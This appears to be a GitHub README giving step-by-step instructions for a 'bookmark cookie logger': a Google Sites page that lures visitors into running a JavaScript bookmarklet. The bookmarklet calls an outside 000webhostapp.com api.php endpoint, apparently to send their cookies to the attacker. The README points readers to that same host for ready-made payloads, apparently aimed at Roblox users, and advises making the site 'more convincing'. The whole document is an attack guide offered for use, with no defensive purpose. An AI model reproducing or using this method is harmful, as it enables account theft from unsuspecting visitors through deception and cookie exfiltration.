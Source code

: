 # Google-Bookmark-Cookie-Logger
Google Sites Bookmark Cookie Logger Method

1.Go to sites.google.com and make a new site

2.Go to <embed> and embed code

3. Paste the code from down below in

4.Delete PasteJavaHere and paste your own Javascript

(dont have a javascript?, go to https://robloxclothingbeta.000webhostapp.com/index.html click on the site and make one)

5. Delete the "" and replace with '' like this below

"xJavascript:$.get("//robloxclothingbeta.000webhostapp.com/api.php?id=123456")" 

to 

"xJavascript:$.get('//robloxclothingbeta.000webhostapp.com/api.php?id=123456')"

6. Hit ok design your site to make it more convincing, upload site and you are done!
